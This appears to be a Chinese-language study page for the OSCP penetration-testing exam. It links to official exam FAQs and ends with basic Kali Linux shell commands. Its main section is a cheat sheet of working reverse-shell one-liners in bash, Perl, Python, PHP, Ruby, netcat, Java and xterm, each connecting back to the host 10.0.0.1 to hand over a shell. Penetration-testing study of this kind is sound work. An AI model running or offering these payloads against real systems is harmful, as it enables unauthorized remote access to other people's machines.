 # OSCP learning

## 官方

* [官方考试说明](https://www.lshack.cn/wp-content/uploads/2019/02/lshack.cn_2019-02-12_09-29-54.pdf)
* [PWK FAQ](https://support.offensive-security.com/#!pwk-general-questions.md)
* [OSCP exam FAQ](https://support.offensive-security.com/oscp-faq/)
* [IRC](https://www.offensive-security.com/offsec-irc-guide/)

## 考试报名

## 资料链接

## cheetsheet 

### 反弹 shell

#### Bash 

Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):

`bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`

#### PERL 

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

#### Python(2.7)

```python 
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

#### PHP

`php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'`

#### Ruby

`ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'`

#### Netcat

`nc -e /bin/sh 10.0.0.1 1234`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f`

#### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

#### xterm 

`xterm -display 10.0.0.1:1`




### Kali Linux

* 设置目标机器 IP 地址为系统变量
`export ip=192.168.1.0`
* 定位文件
`locate sbd.exe`
* 在 `$PATH` 环境变量里查找目录 `which sbd`
* 展示活动互联网链接 `netstat -lntp`
* 修改密码 `paswd`
* 验证服务是否正在运行并监听 `netstat -antp |grep apache`
* 启动服务 `systemctl start ssh`
* 让服务在启动的时候开启 `systemctl enable ssh`
* 停止服务 `systemctl stop ssh`
* 解压 gz 文件 `gunzip access.log.gz`
* 解压 tar.gz 文件 `tar -xzvf file.tar.gz`
* 检索命令历史 `history |grep phrase_to_search_for`
* 下载网页 `wget https://www.baidu.com`
* 打开网页 `curl https://wwww.baidu.com`
* 字符串操作
  * 统计文件中行数
  `wc -l index.html`
  * 获取文件的开头或者结尾
  `head index.html`
  `tail index.html`
  * 提取包含某个字符串的所有行
  `grep "href=" index.html`
  
